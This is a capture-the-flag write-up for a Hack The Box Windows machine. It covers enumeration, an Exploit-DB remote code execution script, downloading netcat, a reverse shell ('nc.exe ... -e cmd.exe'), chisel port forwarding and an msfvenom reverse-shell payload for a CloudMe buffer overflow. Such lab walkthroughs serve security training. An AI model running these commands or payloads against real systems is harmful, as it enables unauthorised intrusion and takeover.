










# Box 




https://www.hackthebox.eu/home/machines/profile/263

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)


# Contents


## Enumeration


Let's start with nmap  : 

```bash
nmap -sV -Pn -sC -oN scan 10.10.10.198
```



Now we use gobuster to do somes discoveries : 

```bash
gobuster -o dirb.txt  dir -u http://10.10.10.198:8080/ -w /usr/share/wordlists/dirb/common.txt
```



There was nothing relevant in this gobuster, but we see a license page.

```
mrb3n's Bro Hut
Made using Gym Management Software 1.0 
```

After looking for the webpage, we can find an exploit to do a RCE https://www.exploit-db.com/exploits/48506.

## Exploitation


After downloading it, we can use it :

```bash
python 48506.py http://10.10.10.198:8080
```




## Post-Exploitation 

### User


We can know get the user.txt flag.




### Root 

We need to get a proper  shell we need to setup our python server `python -m SimpleHTTPServer 4444` and then : 

```bash
curl http://10.10.10.198:4444/nc.exe
```

 Then on the remote machine : 

```bash
nc.exe 10.10.14.28 1234 -e cmd.exe
```



 

I upload a file called jaws-enum.ps1  (https://github.com/411Hall/JAWS) to enumerate.

```bash
curl http://10.10.14.28:4444/jaws-enum.ps1 -o jaws-enum.ps1
```

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
```

During the enumeration we can see a service CloudMe running on port 8888 on localhost. We need to redirect the port to our local machine. 

I will use chisel (https://github.com/jpillora/chisel/releases) for this, you can also try plink.

First you need to upload chisel.exe on the remote machine using curl.
Now on your machine :

```bash
./chisel_1.7.2_linux_amd64 server --port 8000 --reverse
```

 on the remote machine :

```
chisel.exe client 10.10.14.28:8000 R:8888:127.0.0.1:8888
```

 

We know have the traffic redirected to our machine.

After a bit of research we find this exploit that we download:  https://www.exploit-db.com/exploits/48389

We can now replace the payload : 

```bash
msfvenom  -p windows/exec CMD='c:\xampp\htdocs\gym\upload\nc.exe 10.10.14.28 3333 -e cmd.exe' -b '\x00\x0A\x0D\x20' -f python -v payload
```



Our exploit shoud look like this : 



Launch the script and we have rooted our box.




​			
